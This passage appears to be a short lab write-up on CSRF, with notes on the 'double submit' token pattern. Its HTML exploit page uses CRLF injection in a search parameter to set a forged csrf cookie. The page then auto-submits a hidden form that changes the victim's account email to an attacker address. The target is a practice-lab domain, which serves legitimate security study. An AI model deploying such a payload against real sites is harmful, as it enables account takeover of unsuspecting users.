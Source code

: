 ```
<html>
    <body>
        <img src="https://0a92009704dc6bbd8253102a008c0096.web-security-academy.net?search=test%0d%0aSet-Cookie:csrf=whatever%3b%20SameSite=None" />
        <form action="https://0a92009704dc6bbd8253102a008c0096.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned123@evil-user.net" />
            <input type="hidden" name="csrf" value="whatever">
        </form>
        <script>
            setTimeout(() => {
                document.forms[0].submit();
            }, 1000)
        </script>
    </body>
</html>
```

## Double submit

As long as csrf token in Cookie and request body is the same, then pass. 

Prerequisite: session set functionality